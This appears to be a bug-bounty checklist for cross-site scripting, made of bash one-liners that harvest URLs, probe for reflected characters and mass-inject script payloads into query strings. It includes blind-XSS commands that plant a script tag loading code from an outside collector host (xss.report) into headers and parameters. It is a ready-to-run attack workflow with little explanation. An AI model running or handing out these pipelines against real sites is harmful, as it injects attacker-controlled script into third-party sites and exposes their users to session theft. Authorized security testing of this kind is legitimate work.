 
- [ ] Recon
```bash
cat urls.txt | gf xss | urldedupe | httpx-toolkit -t 200 -o xss.txt
```

- [ ] Reflected Characters
```bash
cat xss.txt | Gxss | kxss | grep "' < >"
```


- [ ] Reflected XSS
```bash
cat urls.txt | gf xss | urldedupe | qsreplace '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln


cat xss.txt | qsreplace -a '<sCript>confirm(1)</sCript>' | xsschecker -match '<sCript>confirm(1)</sCript>' -vuln


cat ~/Tools/loxs/payloads/xsspollygots.txt | while read e; do cat xss.txt | qsreplace $e | xsschecker -match -vuln $e ; done | grep -v 'Not Vulnerable'
```


- [ ] Blind XSS
```bash
cat urls.txt | bxss -payload '"><script src=https://xss.report/c/j4xx3n></script>' -header "X-Forwarded-For"

cat urls.txt | grep "&" | bxss -appendMode -payload '"><script src=https://xss.report/c/j4xx3n></script>' -parameters
```



- [ ] Results
```


```